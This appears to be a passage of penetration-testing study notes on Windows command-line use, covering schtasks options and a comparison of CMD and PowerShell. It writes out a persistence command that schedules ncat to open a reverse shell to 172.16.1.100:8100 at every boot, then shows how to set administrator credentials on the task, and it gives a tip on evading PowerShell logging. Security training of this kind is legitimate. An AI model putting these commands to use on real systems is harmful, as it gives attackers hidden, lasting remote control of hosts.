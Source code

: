			- /mo - Allows us to set a modifier to run within our set schedule. For example, every 5 hours every other day.
			- /rl - Allows us to limit the privileges of the task. Options here are `limited` access and `Highest`. Limited is the default value.
			- /z - Will set the task to be deleted after completion of its actions.
			- At a minimum, we must specify the following:
				- `/create` : to tell it what we are doing
				- `/sc` : we must set a schedule
				- `/tn` : we must set the name
				- `/tr` : we must give it an action to take
		- `schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"`
		- *A great example of a use for schtasks would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down.==We can create or modify a new task by adding a new trigger and action. In our task above, we have schtasks execute Ncat locally, which we placed in the user's AppData directory, and connect to the host `172.16.1.100` on port `8100`.== If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.*
		- Change the Properties of a Scheduled Task:
			- `Change` - Allows for modifying existing scheduled tasks.
			- /tn - Designates the task to change
			- /tr - Modifies the program or action that the task runs.
			- /ENABLE - Change the state of the task to Enabled.
			- /DISABLE - Change the state of the task to Disabled.
			- Say we found the `hash` of the local admin password and want to use it to spawn our Ncat shell for us; if anything happens, we can modify the task like so to add in the credentials for it to use:
				- `schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"`
			- Now to make sure our changes took, we can query for the specific task using the `/tn` parameter and see:
				- `schtasks /query /tn "My Secret Task" /V /fo list `
			- If we want to ensure it works, we can use the `/run` parameter to kick the task off immediately.
		* To manually run 
			* `schtasks /run /tn "My Secret Task"`
		- Delete the Scheduled Task(s)
			- `Delete` - Remove a task from the schedule
			- /tn - Identifies the task to delete.
			- /s - Specifies the name or IP address to delete the task from.
			- /u - Specifies the user to run the task as.
			- /p - Specifies the password to run the task as.
			- /f - Stops the confirmation warning.
			- `schtasks /delete  /tn "My Secret Task" `
- ## CMD Vs. PowerShell (PowerShell)
	- PowerShell is cmd successor
	- see [[Windows Fundamentals]] for notes
	- PowerShell is a cli **AND** a scripting language
		- uses .NET framework, allowing an object base model of interaction and output
		- cmdlets are in syntax form verb-noun (`Get-ChildItem`)
		- Using PowerShell to automate tasks like:
			- Provisioning servers and installing server roles
			- Creating Active Directory user accounts for new employees
			- Managing Active Directory group permissions
			- Disabling and deleting Active Directory user accounts
			- Managing file share permissions
			- Interacting with [Azure](https://azure.microsoft.com/en-us/) AD and Azure VMs
			- Creating, deleting, and monitoring directories & files
			- Gathering information about workstations and servers
			- Setting up Microsoft Exchange email inboxes for users (in the cloud &/or on-premises)
		- As a pentester, many well-known capabilities are built into PowerShell.
			- PowerShell's module import capability makes it easy to bring our tools into the environment and ensure they will work. However, from a stealth perspective, PowerShell's `logging` and `history` capability is powerful and will log more of our interactions with the host. **So if we do not need PowerShell's capabilities and wish to be more stealthy, we should utilize CMD.**